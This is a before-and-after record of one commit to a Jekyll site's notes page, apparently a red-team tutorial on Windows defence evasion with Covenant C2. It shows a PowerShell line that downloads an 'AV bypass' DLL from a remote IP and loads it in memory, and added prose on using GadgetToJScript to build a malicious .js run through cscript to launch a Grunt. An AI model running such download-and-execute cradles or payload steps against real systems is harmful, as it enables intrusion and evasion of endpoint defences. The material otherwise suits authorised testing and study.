

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from notes.md, in a window 1280 px wide and 1400 px high, scrolled down 14961 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update notes.md

````diff
--- a/notes.md
+++ b/notes.md
@@ -670,7 +670,6 @@ And note your new powershell Grunt checking in on Covenant.
 
 We could also download the DLL from a remote location as follow below:
 
-
 ```powershell
 PS > $dll = (new-object net.webclient).DownloadData("http://192.168.152.100:1234/monk-Avbypass.dll)
 PS > [System.Reflection.Assembly]::Load($dll)
@@ -679,9 +678,34 @@ PS > [MonkStager.MonkStager]::Execute()
 
 ### 4) Initial delivery
 
-We can try to simulate a campaign conducted by foreign APT adversaries. We will leverage the [NET-Obfuscate:](https://github.com/BinaryScary/NET-Obfuscate project to weaponize our custom DLL.
+We can try to simulate a campaign conducted by foreign APT adversaries. We will try to leverage the amazing [GadgetToJScript:](https://github.com/med0x2e/GadgetToJScript) project to weaponize our custom .NET assembly.
 
 
+First of all we need to build GadgetToJScript in __VisualStudio__. Once the GadgetToJScript binary has been build we can launch the program to generate a malicious __.js__ file that will spawn our custom Covenant Grunt.
+
+The code is illustrate below:
+
 <p align="center">
-  <img src="/assets/posts/2021-03-01-Windows-Evasion/cov4.JPG">
+  <img src="/assets/posts/2021-03-01-Windows-Evasion/cov6.JPG">
 </p>
+
+The parameters are as follow:
+
+- a
+- w
+- e
+- o
+- b
+- r
+
+Once we have our malicious __.js__ file we can execute the file using the Windows build in script engine __cscript__ as follow:
+
+<p align="center">
+  <img src="/assets/posts/2021-03-01-Windows-Evasion/cov7.JPG">
+</p>
+
+If everything went file you should now have your new cscript Grunt checking in on Covenant.
+
+<p align="center">
+  <img src="/assets/posts/2021-03-01-Windows-Evasion/cov8.JPG">
+</p>
````
